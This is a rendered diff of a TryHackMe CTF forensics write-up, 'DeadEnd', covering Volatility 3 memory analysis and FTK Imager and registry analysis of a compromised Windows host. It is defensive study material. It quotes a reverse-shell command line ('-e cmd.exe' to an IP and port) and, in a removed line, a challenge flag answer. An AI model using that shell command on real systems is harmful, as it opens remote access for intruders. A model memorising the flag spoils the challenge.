

Before and after one commit to abubakar-shahid/TryHackMe-CTFs-Writeups, a Markdown page: Hard/DeadEnd/DeadEnd.md, the part around the change printed below. Shown: that part at 99% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
updating

```diff
--- a/Hard/DeadEnd/DeadEnd.md
+++ b/Hard/DeadEnd/DeadEnd.md
@@ -1,15 +1,28 @@
-# There are two files given. The .mem file is the dump of of ram of windows, while the .sys is the dump of virtual memory. Lets use volatility3, as given in the attackbox, and figure out the answers to the required tasks!
+# DeadEnd
+
+## Challenge Information
+- **Challenge Name**: DeadEnd
+- **Category**: Digital Forensics
+- **Difficulty Level**: Hard
+
+## Challenge Description
+There are two files given. The .mem file is the dump of RAM of Windows, while the .sys is the dump of virtual memory. Let's use volatility3, as given in the attackbox, and figure out the answers to the required tasks!
+
+## Tools Used
+- Volatility 3
+- FTK Imager
+- Windows Event Viewer
+- Registry Explorer
 
 ## Memory
-1. Since, we are asked for the insentification of the suspecious activity in the memory image, lets run the [pslist] command on [memdump.mem] file using the command [../volatility3/vol.py -f memdump.mem windows.pslist] to check the processes running, along with their relations with their parent processes. Also, run the command [../volatility3/vol.py -f memdump.mem windows.pslist] to analyze the details of commands executed by each process. Here, we observe that the [svchost.exe] is not assossiated with its parent process. Rather, it is linked with [powershell.exe]. This makes this file suspecious as it is ran through powershell with some command line arguments [-e cmd.exe 10.14.74.53 6996] which most probably indicates the connection with some remote user. Hence, this is the malicious process with the complete path [C:\Tools\svchost.exe]. Also observe that this file is located in [C:\Tools\] directory, while this file is found in [C:\Windows\System32\].
 
-2. Since it is given in the question that the process shares the parent with the process identified in the previous task, that required task id [notepad.exe], and the full path to the txt file is
-[C:\Users\Bobby\Documents\tmp\part2.txt]. This file may contain any code that is involved in remote code execution.
+1. Since, we are asked for the identification of the suspicious activity in the memory image, lets run the `pslist` command on `memdump.mem` file using the command `../volatility3/vol.py -f memdump.mem windows.pslist` to check the processes running, along with their relations with their parent processes. Also, run the command `../volatility3/vol.py -f memdump.mem windows.pslist` to analyze the details of commands executed by each process. Here, we observe that the `svchost.exe` is not associated with its parent process. Rather, it is linked with `powershell.exe`. This makes this file suspicious as it is ran through powershell with some command line arguments `-e cmd.exe 10.14.74.53 6996` which most probably indicates the connection with some remote user. Hence, this is the malicious process with the complete path `C:\Tools\svchost.exe`. Also observe that this file is located in `C:\Tools\` directory, while this file is found in `C:\Windows\System32\`.
+
+2. Since it is given in the question that the process shares the parent with the process identified in the previous task, that required task id `notepad.exe`, and the full path to the txt file is `C:\Users\Bobby\Documents\tmp\part2.txt`. This file may contain any code that is involved in remote code execution.
 
 ## Disk
-1. Open the [FTK Imager] in the new windows machine. Open the [Robert.dd] in the FTK. Click on the imae loaded to expand it. Notice a root folder. Expand it and you will see [Users] and [Tools] directories. Right click on both one by one and export opbjects. We are using these two folders because these are the directories that contained the malicious files in the previous tasks. Now go to the Users, here is the directory of [Bobby]. Expand it and go to [Documents] and then [tmp]. Here are the two files that we were in the search of. This is the same path that we submitted in the previous task. Now open the [connector.ps1]. Notice that it was created using the file [svchost.exe], which is present in the [C:\Tools\] directory. Hence, go this directory in the FTK and click on the exe file. It will show some files. One file contains a single word that seems to be some name, while the other refers to some path. The path contains a keyword [Autoconnector]. Search for this keyword in the exported directory. It will give an exe file [Autoconnector.exe]. This is the required artifect, with full path [C:\Tools\windows-networking-tools-master\windows-networking-tools-master\LatestBuilds\x64\Autoconnector.exe].
 
-2. Remeber to export all the registry files from the above directories as well as the windows directory. Open all the registry files in the registry explorer. Search for the keyword [autoconnector.exe] using ctrl+F. Some paths will be list down, in which there is a path with a keyword [bam]. This is the correct path as an evidence of the malicious executable [HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\bam\State\UserSettings\S-1-5-21-1966530601-3185510712-10604624-1008].
+1. Open the FTK Imager in the new windows machine. Open the `Robert.dd` in the FTK. Click on the image loaded to expand it. Notice a root folder. Expand it and you will see `Users` and `Tools` directories. Right click on both one by one and export objects. We are using these two folders because these are the directories that contained the malicious files in the previous tasks. Now go to the Users, here is the directory of `Bobby`. Expand it and go to `Documents` and then `tmp`. Here are the two files that we were in the search of. This is the same path that we submitted in the previous task. Now open the `connector.ps1`. Notice that it was created using the file `svchost.exe`, which is present in the `C:\Tools\` directory. Hence, go this directory in the FTK and click on the exe file. It will show some files. One file contains a single word that seems to be some name, while the other refers to some path. The path contains a keyword `Autoconnector`. Search for this keyword in the exported directory. It will give an exe file `Autoconnector.exe`. This is the required artifact, with full path `C:\Tools\windows-networking-tools-master\windows-networking-tools-master\LatestBuilds\x64\Autoconnector.exe`.
 
-3. Open the [path2.txt] that we discovered. The content of this file is the answer [faDB3XzJfcDF2T1R9].
+2. Remember to export all the registry files from the above directories as well as the windows directory. Open all the registry files in the registry explorer. Search for the keyword `autoconnector.exe` using ctrl+F. Some paths will be list down, in which there is a path with a keyword `bam`. This is the correct path as an evidence of the malicious executable `HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\bam\State\UserSettings\S-1-5-21-1966530601-3185510712-10604624-1008`.
 
```
Also changed, not shown: other parts of Hard/DeadEnd/DeadEnd.md (+9 -2 lines).
